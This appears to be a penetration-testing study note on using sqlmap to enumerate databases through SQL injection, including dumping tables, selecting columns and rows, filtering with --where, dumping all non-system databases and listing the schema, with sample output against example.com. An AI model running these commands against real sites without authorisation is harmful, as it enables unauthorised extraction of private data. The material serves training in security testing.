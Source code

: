 dump format
--dump-format` to HTML or SQLite

HTML output
![](Pasted%20image%2020250614130736.png)
## Column Enumeration

specify columns
```shell-session
-C name,surname
```

narrow down row results 
```shell-session
--start=2 --stop=3

| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
```

### conditional enumeration

If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
```
## Full DB enumeration
a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs 
```

# schema enumeration

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
```